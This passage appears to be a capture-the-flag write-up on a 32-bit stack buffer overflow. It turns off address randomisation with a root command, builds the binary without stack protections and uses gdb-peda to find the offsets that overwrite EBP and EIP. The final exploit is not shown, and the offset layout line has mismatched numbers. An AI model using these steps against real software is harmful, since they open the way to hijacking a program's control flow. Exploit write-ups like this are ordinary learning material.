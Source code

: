 ```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 6 6.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

1. Disassemble the main function.
2. Find offset.

```nasm
gdb-peda$ r <<< $(python -c "print 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'")

...TRIM...
Stopped reason: SIGSEGV
0x41414b41 in ?? ()
gdb-peda$ i r ebp eip
ebp            0x41354141	0x41354141
eip            0x41414b41	0x41414b41

gdb-peda$ x/wx $esp
0xffffd110:	0x36414167

gdb-peda$ pattern offset 0x36414167
910246247 found at offset: 93
gdb-peda$ pattern offset 0x41354141
1094009153 found at offset: 85
gdb-peda$ pattern offset 0x41414b41
1094798145 found at offset: 89
```

The payload that we send to binary fits as below:

```
[offset = 80]+[ebp = 85]+[eip = 89]+[esp = 93] 
      1...80 +  81...84 +  85...88 +  89...92
```

```nasm
gdb-peda$ r <<< $(python -c "print 'A'*80+'B'*4+'C'*80") 

gdb-peda$ i r ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
gdb-peda$ x/wx $esp
0xffffd110:	0x43434343
```

As seen on the source code of this challenge, we are no able to use return pointer. The if condition on the code checks if return address starts from **0xbf000000**. I compiled this one on my vm and stack doesn't start from 0xbf...
